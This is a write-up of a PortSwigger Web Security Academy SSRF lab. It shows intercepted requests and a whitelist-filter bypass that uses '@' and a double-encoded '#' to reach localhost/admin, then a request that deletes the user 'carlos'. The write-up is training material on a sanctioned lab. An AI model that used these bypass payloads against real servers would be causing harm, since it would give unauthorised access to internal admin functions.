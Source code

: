 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - with whitelist-based input filter
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 24.04.2025
- 📊 **Difficulty:** EXPERT
- 📁 **Category:** Web - SSRF (`white-based`)

---

## 🔍 Request interception

> I intercept the request of stock check function to the server in `BurpSuite`:

```html

POST /product/stock HTTP/2
Host: 0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Cookie: session=***********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```
> with `Hackvertor` extension:

```none
stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>
```

> I need to bypass an `anti-SSRF` filter like white-based input filter
> The server expects to receive a request with data that is allowed to be processed. For example, they are on a white list of allowed values.

> Ok. I will try some methods that probably work.

> I know that there is logic on the server side to check the domain that the request comes to. For example, if i try to change `stock.weliketoshop.net`
> to any other domain, then i will get an error from the server that **the request should be made only to "stock.weliketoshop.net"**.

> For example:

> Request:

```none

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"

```
> So. There are several ways that can help to trick the server filter and make it make a request to an allowed domain.
> **Note:** It is important to remember that I am trying to bypass the filtering at the level of the application code itself, so
> that the server makes the request further away from itself, and then the request itself with the parsing function and url-encoding. 

> When a URL has `@`, everything before the `@` is considered credentials (login and password). And everything after the `@` is considered the real host.
> The '#' symbol in the URL is the beginning of a fragment that is not sent at all. It is only for browsers

> Ok. add the `@` symbol before expected-host and send the request

```none

stockApi=<@urlencode>http://localhost@stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>

```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

395

```
> Ok. Since the server handles such a request successfully, ignoring what is specified before the @ symbol, I just need to remove the extra part of the URL
> fragment and leave only `http://localhost/admin`.

> add the double url-encoded `#` symbol, because after the request, decoding will be done during parsing.



```bash

stockApi=http://localhost%2523@stock.weliketoshop.net/admin

```

![admin_interface](./screenshots/admin_interface.png)

> I delete `Carlos` user:


```bash

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

```

![lab_solved](./screenshots/lab_solved.png)
